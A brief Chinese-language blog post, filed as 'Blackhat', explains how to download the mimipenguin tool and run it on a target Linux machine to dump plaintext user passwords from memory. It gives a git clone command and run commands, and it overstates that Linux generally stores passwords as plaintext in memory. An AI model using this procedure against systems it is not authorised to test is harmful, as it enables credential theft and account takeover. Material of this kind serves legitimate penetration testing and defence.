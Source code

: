 ```yaml
---
title: 使用mimipenguin工具在Linux系统中dump出明文密码
name: dump-password-linux
date: 2017-11-12
tags: [mimipenguin]
categories: [Blackhat]
---
```


# 使用mimipenguin工具在Linux系统中dump出明文密码

## 1. 原理

**mimipenguin** 使用内存计算的技术，读取内存中的凭证信息，linux系统在运行中会将用户名和密码以明文的方式保存在内存中。

## 3. 下载

```shell
git clone https://github.com/huntergregal/mimipenguin.git
```

## 4. 使用

在目标机器直接运行`mimipenguin`命令，如下：

```shell
# shell
chmod u+x mimipenguin.py
./mimipenguin.sh

# python
python3 ./mimipenguin.py
```

